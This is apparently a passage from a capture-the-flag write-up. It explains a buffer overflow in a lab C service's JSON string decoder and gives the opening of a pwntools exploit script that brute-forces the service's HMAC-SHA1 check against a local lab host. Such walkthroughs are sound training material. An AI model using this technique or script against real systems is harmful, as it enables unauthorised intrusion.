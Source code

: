 *  **decode_string(const char *src, unsigned char *dest, int *dest_len)**

   Called in **handle_request()**. \\
   Gets value of a json key, a buffer and len(buffer). \\
   It goes through the buffer and checks for certain sequences of characters (\\t, \\b...). \\
   But, when it checks for unicode "\\u", the "dest" variable is incremented two times. However, the while loop condition is "while(\*src && dest != end)".  If "\\u" is at len(buffer)-1, "dest" will be higher than "end" (wich is equal to \*buffer + sizeof(buffer)). Thus, the buffer overflow is here and can be generated with the  "title" or "contents" json values.

*  **post_blog_article()**

   Send a POST request to "serverip". We don't have to care much about this function since our buffer overflow will be triggered when **handle_request()** will return.

Now that we have an understanding of the program, we can construct our exploitation script.

Construct the right hash
---------------------

We have to pass the **validate_request** function first. To do so, we have to send data that will have a HMAC-SHA1 hash starting with "0000". The beginning of our exploitation script will be:
{% highlight python linenos %}
#!/usr/bin/python2
import hmac
from hashlib import sha1
from pwn import *
import json, random, string

#Connection to the host
c = remote('192.168.56.101',20003)

#Get token
token = c.recvline().split('"')[1]
log.info("Token: " + token)

while(True):

    title = ''.join([random.choice(string.ascii_letters + string.digits) for n in xrange(100)])
    #"tags" value is an array
    msg = json.dumps({"tags":("A"), "title":title, "contents":contents,
                        "serverip":"192.168.56.1:80"}, ensure_ascii=False)

    #'\n' between token and json for json_tokener_parse function to work (inside parse_request())
    payload = token + "\n" + msg

    hashed = hmac.new(bytearray(token), bytearray(payload), sha1)

    if(hashed.hexdigest().startswith('0000')):
        log.info("Payload: " + payload)
        break

c.send(payload)

log.info("Payload sent!")
{% endhighlight %}
Here we generate radom characters and digits in the "title" json value to generate a different hash each iteration of the while loop, and we break when the hash starts with "0000".
